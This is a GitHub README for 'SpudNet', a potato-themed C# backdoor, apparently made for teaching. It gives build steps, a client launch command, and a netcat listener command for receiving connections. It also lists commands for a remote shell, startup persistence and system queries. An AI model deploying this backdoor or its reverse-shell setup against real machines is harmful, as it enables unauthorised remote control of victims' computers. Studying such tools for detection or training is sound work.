 # SpudNet
---
## Description
A Potato-themed backdoor developed in C#. 

![SpudNet](screenshots/spudnet.png)

## Requirements
- .NET Framework ≥ 4.7
- A Windows client running SpudBot.exe.
- A server listening for incomming connections. 

## Download
You can download the latest release of SpudBot.exe from https://github.com/malwaredetective/spudnet/releases/. 

## Building from Source Code
- Clone a copy of the Github repository.
```
git clone https://github.com/malwaredetective/spudnet.git
```
- Open **SpudBot.Sln** within Visual Studio.
- Build the solution within Visual Studio. 

## Usage
On the client, launch **SpudBot.exe** with Command-line arguments pointing to the server you would like to connect too. 
```
SpudBot.exe "Server" "Port"
```
On the server, setup a listener to watch for inbound connections.
```
nc -lvp 4444 -k
```
The SpudNet framework contains built-in commands for the server to help *Spudify* the client.  

| Command | Description |
| --- | --- |
| help | Print out a list of Commands. |
| calc | Count Potatoes with Calculator. |
| desktop | Spudify the Clients Desktop Background. |
| download | Download LilSpud's favorite Poem. | 
| fact | Send LilSpud a random Spudfact. |
| search | Find Potatoes Near LilSpud. |
| shell | Establish a Command Shell with LilSpud. |
| startup | Launch Spudnet on start-up. |
| status | Report the Status of LilSpud. |
| whoami | Query System Information |
| exit | Terminate the Current Session. |

For additional information, reference the command reference guide on the Wiki: https://github.com/malwaredetective/spudnet/wiki.

---
